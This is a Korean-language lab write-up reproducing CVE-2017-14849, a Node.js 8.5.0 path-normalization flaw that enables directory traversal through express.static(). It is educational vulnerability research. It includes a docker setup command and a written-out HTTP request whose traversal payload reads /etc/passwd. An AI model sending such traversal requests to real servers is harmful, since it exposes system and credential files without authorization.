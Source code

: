 # Node.js 디렉터리 탐색 취약점(CVE-2017-14849)

## 취약점 개요

Node js 8.5.0에서는 `파일 경로 정규화(Path Normalization)` 취약점이 있습니다. 상위 레이어(예: ../../../../../../etc/passwd)로 이동하는 중에 바르지 못한 폴더가 있는 경우 (예: ../../../foo/../../../etc/passwd) 오류가 발생해야 하지만 `파일 경로 정규화(Path Normalization)` 취약점으로 인해 `/etc/passwd`의 결과를 반환하게 됩니다.

Express와 같은 웹 프레임워크는 일반적으로 정적 파일을 제공하기 위해 `express.static()`를 사용합니다. 이러한 함수는 내부적으로 경로 정규화를 수행하면서 디렉터리의 범위를 초과하는지 여부를 확인합니다. 그러나 Node js 8.5.0 버전의 경우 위 버그로 인해 정규화 함수가 잘못된 결과를 반환하고 디렉터리 탐색 취약점이 발생합니다.

해당 버그는 디렉터리를 단순 탐색하는 것 이상의 영향을 미칠 수 있으므로 더 깊이 조사할 필요가 있습니다. 그러나 이 취약점은 Node js 8.6.0에서 수정되었기 때문에 영향의 범위가 제한됩니다.

## 환경 실행

다음의 명령어를 통해 테스트 환경을 구성함.

```
docker compose up -d
```

`http://your-ip:3000/`으로 접속할 수 있습니다.
![1](https://github.com/junwonheo/junwonheo.github.io/assets/129061707/5dfcff9a-8a77-48d0-9238-09dc5a6c35ff)

`/static/main.js`에 정적 파일이 존재합니다. 아래와 같은 패킷을 보내겠습니다.

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![2](https://github.com/junwonheo/junwonheo.github.io/assets/129061707/2bc0b8f2-f53f-4693-890a-657f7c378317)
